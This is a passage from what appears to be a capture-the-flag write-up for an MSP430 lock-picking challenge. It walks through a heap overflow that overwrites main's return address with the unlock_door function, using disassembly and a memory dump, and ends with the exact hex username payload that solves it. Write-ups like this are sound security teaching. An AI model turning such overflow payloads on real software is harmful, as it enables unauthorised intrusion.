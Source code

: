 If we just use this username as it is, it will overwrite our target value with the address of the **unlock_door** function. This happens at

```
452a:  8e4c 0400      mov	r12, 0x4(r14)
```
where r12 contains the result of our sum, and 0x4(r14) is our BB+4, namely 439a which contains the value of the return address of main.
However, you will get a **load address unaligned: 4343** warning due to the following line:
```
4538:  8d4e 0000      mov	r14, 0x0(r13)
```
at this point r14 = 4396 (i.e 439a - 4), and r13 = 4343 which is CC.
So CC is not a valid address for this. What value can we choose?
Let's take a look at the memory dump again:

```
Live Memory Dump

2400:   0824 0010 0000 0000 0824 1e24 2100 4141   .$.......$.$!.AA
2410:   4141 4141 4141 4141 4141 4141 4141 9643   AAAAAAAAAAAAAA.C
2420:   4343 1e01 4949 0000 0000 0000 0000 0000   CC..II..........
2430:   0000 0000 1e24 0824 9c1f 0000 0000 0000   .....$.$........
2440:   *
4380:   0000 0000 ca46 0100 ca46 0300 3e47 0000   .....F...F..>G..
4390:   0a00 2424 a846 0000 4343 6445 0000 0000   ..$$.F..CCdE....
43a0:   *
4400:   3140 0044 1542 5c01 75f3 35d0 085a 3f40   1@.D.B\.u.5..Z?@
4410:   0600 0f93 0724 8245 5c01 2f83 9f4f 4847   .....$.E\./..OHG
4420:   0024 f923 3f40 0000 0f93 0624 8245 5c0
```

From what I tested both  4410 and 4420  are valid values for CC.
Now we just put the pieces together

# Solution
- Username: A * 16 + 0x4396 + 4420 + 0x11e
- **Username = 41414141414141414141414141414141964320441e01**
or
- **Username = 41414141414141414141414141414141964310441e01**